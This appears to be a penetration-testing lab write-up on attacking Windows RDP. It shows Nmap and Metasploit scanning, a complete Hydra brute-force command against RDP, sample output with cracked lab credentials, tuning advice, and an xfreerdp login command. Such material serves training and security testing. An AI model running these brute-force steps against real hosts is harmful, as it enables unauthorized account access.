 # Exploiting RDP

We can always connect to RDP in a remote machine that is running windows. However, in order to exploit RDP in a target system, you have to posses a legitimate username and password in clear-text for that machine.

RDP port can be changed by the administrator in order to hide the available running rdp server. You always have to make sure if RDP is running in a different port.

## Laboratory

- Run a simple Nmap scan on the target. Run a scan in all ports to spot any out of place open connection.
- In order to identify an RDP server running, you can always try to connect to the open connection. However, in this case we will use MSF to identify and exploit RDP.
**Note**: remember to run `service postgresql start` before starting msfconsole.
- In this case we will use `auxiliary/scanner/rdp/rdp_scanner` to identify RDP on the target.
- Once identified, we will proceed to try to exploit RDP. In this case, we will start by performing a bruteforce attack using Hydra. We can use the following command `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://x.x.x.x -s $PORT`.

[3333][rdp] host: 10.4.23.42   login: sysadmin   password: samantha
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.4.23.42   login: demo   password: victoria
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.4.23.42   login: auditor   password: elizabeth
[ERROR] freerdp: The connection failed to establish.
[STATUS] 5224.00 tries/min, 5224 tries in 00:01h, 1839 to do in 00:01h, 4 active
[3333][rdp] host: 10.4.23.42   login: administrator   password: qwertyuiop

**Note**: Sometimes hydra is too agressive for the target system, we can lower the number of tasks using the -t flag. Default is 16.
- Once some credentials have been found, we want to test them out establishing a connection. For this task, we can use xfreerdp like this: `xfreerdp /u:USERNAME /p:PASSWORD /v:HOST_IP:PORT`.

flag: port-number-3333